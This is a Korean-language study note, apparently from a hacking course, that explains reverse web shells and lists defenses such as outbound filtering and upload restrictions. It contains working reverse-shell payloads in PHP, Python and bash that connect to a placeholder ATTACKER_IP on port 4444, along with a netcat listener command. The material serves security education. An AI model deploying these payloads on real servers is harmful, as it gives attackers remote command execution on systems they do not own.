 # Reverse Web Shell

`Reverse Web Shell`은 공격자가 서버에 업로드한 웹쉘을 통해 **서버가 공격자에게 연결을 시도**하도록 만들어, 공격자가 **원격에서 명령을 실시간으로 주고받을 수 있는 쉘 환경을 확보**하는 공격 기법이다.<br>

기존의 일반 웹쉘은 클라이언트가 서버에 명령을 요청하는 방식(Pull)이라면, **리버스 웹쉘은 서버가 공격자에게 연결을 Initiate(Push)** 하므로 **방화벽, 보안 장비 우회를 위한 주요 기술**로 사용된다.

---

## 작동 원리
1. **공격자가 웹쉘을 포함한 파일을 서버에 업로드**
2. **웹쉘 내부에서 `bash`, `python`, `nc`, `php`, `perl` 등으로 지정된 공격자의 IP:Port로 연결 시도**
3. **공격자는 해당 포트를 리슨(listen) 상태로 유지하여 연결 대기**
4. **서버가 공격자에게 연결되면 양방향 명령어 전송이 가능한 인터랙티브 셸이 형성됨**

---

## 리버스 웹쉘 업로드 예시

### PHP 리버스 웹쉘

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'");
?>
```

### Python 리버스 웹쉘

```python
import socket,subprocess,os
s=socket.socket()
s.connect(("ATTACKER_IP",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

### Netcat 리버스 연결 (서버 측 쉘)
```bash
/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```
>  공격자는 `nc -lvp 4444` 로 리슨 상태를 유지

---

## 일반 웹쉘 vs 리버스 웹쉘

| 구분       | 일반 웹쉘               | 리버스 웹쉘                 |
| -------- | ------------------- | ---------------------- |
| 연결 방향    | 공격자 → 서버 (요청 기반)    | 서버 → 공격자 (연결 시도 기반)    |
| 우회 가능성   | 낮음 (WAF/로그에 쉽게 탐지됨) | 높음 (내부 → 외부 연결로 우회 가능) |
| 명령 전송 방식 | 요청마다 명령 실행          | 실시간 쉘 유지 가능            |
| 방화벽 우회   | 어려움                 | 가능 (출력 포트 열려 있으면)      |


---

## 방어 방법

| 방어 방법             | 설명                                           |
| ----------------- | -------------------------------------------- |
| **아웃바운드 연결 제한**   | 서버에서 외부 IP로 나가는 연결 차단 (`iptables`, `ufw`)    |
| **실행 권한 제한**      | 웹서버가 `bash`, `nc`, `python` 등을 실행할 수 없도록 설정  |
| **웹쉘 탐지 도구 사용**   | 웹쉘 특유의 코드 패턴을 탐지하는 `LMD`, `ClamAV`, `WAF` 설정 |
| **파일 업로드 필터링 강화** | 웹쉘 파일 업로드 자체를 막기 (확장자, MIME, 재인코딩)           |
| **로그 모니터링**       | 갑작스러운 외부 IP 접속, outbound 연결 기록 분석            |


---
## 정리

> `Reverse Web Shell`은 공격자가 서버에 명령을 요청하는 것이 아니라, 서버가 공격자에게 접속하여 **양방향 통신이 가능한 실시간 쉘**을 형성하는 공격 방식이다.<br>

> 방화벽, WAF 등 보안 시스템을 우회하거나 내부망의 취약 서버를 활용한 **외부 제어의 핵심 수단**이 되며, **실행 파일 및 아웃바운드 보안 정책이 제대로 설정되어 있지 않다면 매우 위험한 결과로 이어질 수 있다.**

## 참고 사이트
>[SegaFalut Academy](https://academy.segfaulthub.com/ "nomaltic 해킹 강의")

<hr />